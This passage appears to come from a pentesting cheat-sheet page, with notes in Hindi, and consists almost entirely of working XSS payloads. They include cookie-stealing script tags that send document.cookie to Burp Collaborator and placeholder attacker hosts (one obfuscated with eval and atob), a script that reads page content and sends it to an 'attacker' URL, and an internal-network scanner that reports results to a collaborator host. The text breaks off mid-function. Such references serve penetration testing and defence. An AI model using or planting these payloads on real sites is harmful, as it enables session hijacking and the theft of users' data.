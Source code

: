 ```javascript
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
{% hint style="info" %}
आप **JavaScript से कुकीज़ तक पहुँच नहीं पाएंगे** यदि कुकी में HTTPOnly ध्वज सेट किया गया है। लेकिन यहाँ आपके पास [इस सुरक्षा को बायपास करने के कुछ तरीके हैं](../hacking-with-cookies/#httponly) यदि आप भाग्यशाली हैं।
{% endhint %}

### पृष्ठ सामग्री चुराना
```javascript
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8";
var attacker = "http://10.10.14.8/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
```
### आंतरिक IP खोजें
```html
<script>
var q = []
var collaboratorURL = 'http://5ntrut4mpce548i2yppn9jk1fsli97.burpcollaborator.net';
var wait = 2000
var n_threads = 51

// Prepare the fetchUrl functions to access all the possible
for(i=1;i<=255;i++){
q.push(
function(url){
return function(){
fetchUrl(url, wait);
}
}('http://192.168.0.'+i+':8080'));
}

// Launch n_threads threads that are going to be calling fetchUrl until there is no more functions in q
for(i=1; i<=n_threads; i++){
if(q.length) q.shift()();
}

function fetchUrl(url, wait){
console.log(url)
var controller = new AbortController(), signal = controller.signal;
fetch(url, {signal}).then(r=>r.text().then(text=>
{
location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
}
))
.catch(e => {
if(!String(e).includes("The user aborted a request") && q.length) {
q.shift()();
```